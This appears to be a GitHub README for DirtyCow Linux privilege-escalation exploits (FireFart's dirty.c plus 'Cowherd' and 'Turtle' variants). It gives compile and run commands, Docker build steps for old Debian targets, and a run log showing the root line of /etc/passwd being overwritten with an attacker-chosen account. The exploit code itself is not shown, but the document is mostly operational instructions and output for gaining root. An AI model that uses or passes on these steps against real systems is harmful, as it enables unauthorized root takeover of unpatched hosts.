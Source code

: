 # DirtyCow Origin

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

# DirtyCow with Cowherd

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 cowherd.c
...
```
* Follow the compilation instructions
* Use it as the original


# Turtle :turtle:

## Compile for Debian Wheezy 64

* Use a docker target os to compile the exploit 
```
docker run --platform linux/amd64 -it -v $(pwd):/tmp debian/eol:wheezy
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/# gcc -pthread main.c -o turtle
```
## Use

```
$ ./turtle 

⛔ usage: build_name race_length race_interval advisor_interval

$ ./turtle 256 1 3

       236 µs	● run process[MAIN] >> thread[main]
       340 µs	⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup]
       421 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,023 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,067 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,154 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,169 µs	⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_setup]
     4,299 µs	● run process[POKEMON (MAIN is now POKEMON)] >> thread[main]
     4,328 µs	⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_setup]
     4,352 µs	⚬ ● run process[COWHERD -> ADVISOR] >> thread[main]
     4,488 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_setup]
     4,985 µs	⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor]
     5,030 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor] >>> function[advise_kernel]🐮🔄
     5,593 µs	⚬ ● end process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_setup]
     5,778 µs	⚬ ● run process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     5,794 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,877 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,892 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     5,906 µs	● root:x:0:0:root:/root:/bin/bash
     5,915 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,570 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,610 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,618 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,627 µs	● 0:002UBq03Nvvos:0:0:::/bin/bash
     7,631 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,717 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,768 µs	● ADVISOR: .........34 memory advise
     7,790 µs	⚬ ⚬ ● end process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,816 µs	⚬ ● end process[POKEMON -> ADVISOR] >> thread[main]
     8,045 µs	● POKEMON: ......1,024 ptrace poketext
     8,054 µs	⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     8,061 µs	● end process[POKEMON] >> thread[main]

```


